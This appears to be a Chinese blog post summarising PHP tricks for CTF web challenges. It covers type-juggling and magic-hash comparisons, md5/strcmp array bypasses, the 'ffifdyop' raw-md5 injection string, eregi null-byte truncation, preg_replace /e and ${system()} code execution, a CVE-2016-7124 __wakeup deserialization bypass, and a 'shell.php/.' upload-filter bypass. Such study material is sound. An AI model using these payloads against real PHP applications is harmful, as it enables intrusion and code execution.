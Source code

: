 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。<br>
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。


# 弱类型

```php
<?php

//输出 boolean true

$a = 0;
$b = '0asdf';
var_dump($a == $b);


//输出 boolean true

$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

# 科学记数法

```php
<?php

//输出 boolean true

$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>
```

## 函数
- md5()

    ```php
    <?php
    //http://xxxx?a[]=1&b[]=2

    //md5对数组类型hash的时候会返回false

    //输出 boolean true

    $a = md5($_GET['a']);
    $b = md5($_GET['b']);
    var_dump($a == $b);

    //把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符

    //输出 'or'6�]��!r,��b

    echo md5('ffifdyop',true);

    ?>
    ```
- ereg()/eregi()截断

```php
<?php

//http://xxxx?a=abc;

//输出 boolean false

//http://xxxx?a=abc%00;

//输出 boolean true

var_dump(eregi('^[a-z]+$',$_GET[a]));

?>
```

- preg_replace()代码执行<br>

```php
<?php

//pattern里使用参数e导致代码执行

preg_replace('/test/e','phpinfo()','test');

?>
```

- 对parse_url()参数检测的绕过<br>

![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

`注：在path前面的"/"到达一定数量之后，parse_url会忽略参数`

- mt_srand()伪随机数
用`php_mt_seed`即可算出种子<br>


- is_numeric()十六进制绕过

```php
<?php

var_dump(is_numeric('0xabcd'));
//输出 boolean true

?>
```

- strcmp()绕过<br>

strcmp输入数组作为参数会返回`NULL`<br>
```php
<?php

//http://xxxx?a[]=www

$a=$_GET['a'];
echo strcmp('aaaa',$a).'<br>';

//输出 无（即NULL）

if(strcmp('aaaa',$a)){
    echo 'false!';
}else{
    echo 'success!';
}
//输出 success

?>
```

## 反序列化
- _wakeup()魔术方法的绕过<br>
利用的是`CVE-2016-7124`<br>

```php
<?php

class test{

    public $s = 'secret';

    function __construct(){
        
    }

    function __wakeup(){
        echo 'wakeup'.'<br>';
        $this->s = '';
    }

    function __destruct(){
        echo 'destruct '.$this->s.'<br>';
        
    }
}

$a = new test();
$serial = serialize($a).'<br>'; 

//O:4:"test":1:{s:1:"s";s:6:"secret";}


unserialize($serial);
//输出：

//wakeup

//destruct 

//可以看到反序列化先运行了__wakeup()函数

//但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup

//即 O:4:"test":2:{s:1:"s";s:6:"secret";}

unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
//输出： 

//destruct secret

//没有运行wakeup


?>

```

- 双引号里的代码执行

```php
<?php

$a = "${system('whoami')}";

?>
```

## 文件上传

- shell.php/.

上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单<br>